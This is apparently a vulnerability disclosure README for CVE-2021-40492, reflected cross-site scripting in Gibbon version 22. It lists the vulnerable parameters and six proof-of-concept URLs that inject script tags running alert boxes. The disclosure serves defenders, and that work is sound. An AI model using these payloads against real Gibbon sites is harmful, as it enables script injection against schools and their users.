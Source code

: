 # CVE-2021-40492
CVE-2021-40492 Gibbon version 22 Reflected Cross Site Scripting (XSS) Vulnerabilities.  https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-40492

A reflected Cross Site Scripting vulnerability exists in multiple pages in version 22 of the Gibbon education application that allows for arbitrary execution of JavaScript commands. 

Vulnerable Parameters : gibbonCourseClassID, gibbonPersonID, subpage, currentDate, allStudents


Vulnerable Payloads:

/gibbonedu/index.php?q=%2Fmodules%2FFormal+Assessment%2FexternalAssessment_details.php&gibbonPersonID=0000001819d7gdw'%3e%3cscript%3ealert(1)%3c%2fscript%3eckbcl&search=&allStudents= 

/gibbonedu/index.php?q=%2fmodules%2fDepartments%2fdepartment_course_class.php&gibbonCourseClassID=00002425sbh6q%22%3e%3cscript%3ealert(XSS)%3c%2fscript%3ezdb7w 

/gibbonedu/index.php?q=%2Fmodules%2FFormal+Assessment%2FexternalAssessment_details.php&gibbonPersonID=0000001819&search=k7zkk'%3e%3cscript%3ealert(XSS)%3c%2fscript%3eiqdj2&allStudents= 

/gibbonedu/index.php?q=%2fmodules%2fPlanner%2fplanner.php&gibbonCourseClassID=00002425%7d%7dih0ol'%3e%3cscript%3ealert(XSS)%3c%2fscript%3eadssq&viewBy=class

/gibbonedu/index.php?q=%2fmodules%2fStudents%2fstudent_view_details.php&gibbonPersonID=2033&search=&allStudents=on&sort=surname%2c%20preferredName&subpage=Familyjxlcj%3cscript%3ealert(XSS)%3c%2fscript%3emn58l

/gibbonedu/index.php?q=%2fmodules%2fDepartments%2fdepartment_course_class.php&gibbonCourseClassID=00002425&currentDate=k9q4m%22%3e%3cscript%3ealert(XSS)%3c%2fscript%3etfuh1


Found 2 Sept 2021 by Brian Lowe
